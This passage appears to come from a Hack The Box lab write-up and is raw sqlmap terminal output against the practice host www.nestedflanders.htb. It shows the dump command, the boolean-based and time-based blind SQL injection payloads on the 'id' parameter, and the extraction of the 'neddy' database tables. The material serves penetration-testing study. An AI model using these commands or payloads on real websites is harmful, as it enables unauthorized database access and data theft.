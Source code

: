 ```
[17:58:05] [INFO] table 'neddy.filepath' dumped to CSV file '/root/.sqlmap/output/www.nestedflanders.htb/dump/neddy/filepath.csv'             
[17:58:05] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.nestedflanders.htb'
[*] ending @ 17:58:05 /2019-08-23/
```

```
root@kali:~/Desktop/HTB/boxes/unattended# sqlmap -u https://www.nestedflanders.htb/index.php?id=465 -D neddy -T idname --dump --threads 10
        ___               
       __H__
 ___ ___[)]_____ ___ ___  {1.3.4#stable} 
|_ -| . [)]     | .'| . |  
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org                                                                            
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program           

[*] starting @ 18:03:42 /2019-08-23/
[18:03:42] [INFO] resuming back-end DBMS 'mysql'
[18:03:42] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:                       
---        
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=465' AND 6602=6602 AND 'YxJr'='YxJr
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=465' AND SLEEP(5) AND 'APKt'='APKt                       
---
[18:03:43] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[18:03:43] [INFO] fetching columns for table 'idname' in database 'neddy'
[18:03:43] [INFO] resumed: 3
[18:03:43] [INFO] retrieving the length of query output
[18:03:43] [INFO] retrieved: 2
[18:03:52] [INFO] retrieved: id
[18:03:52] [INFO] retrieving the length of query output
[18:03:52] [INFO] retrieved: 4
[18:04:02] [INFO] retrieved: name
[18:04:02] [INFO] retrieving the length of query output
[18:04:02] [INFO] retrieved: 8
[18:04:12] [INFO] retrieved: disabled
[18:04:12] [INFO] fetching entries for table 'idname' in database 'neddy'
[18:04:12] [INFO] fetching number of entries for table 'idname' in database 'neddy'
[18:04:12] [INFO] retrieved: 6
[18:04:17] [INFO] retrieving the length of query output
[18:04:17] [INFO] retrieved: 1
[18:04:21] [INFO] retrieved: 1
[18:04:27] [INFO] retrieving the length of query output
[18:04:27] [INFO] retrieved: 1
[18:04:33] [INFO] retrieved: 1
[18:04:39] [INFO] retrieving the length of query output
[18:04:39] [INFO] retrieved: 8
[18:04:51] [INFO] retrieved: main.php
[18:04:51] [INFO] retrieving the length of query output
[18:04:51] [INFO] retrieved: 1
[18:04:55] [INFO] retrieved: 1
```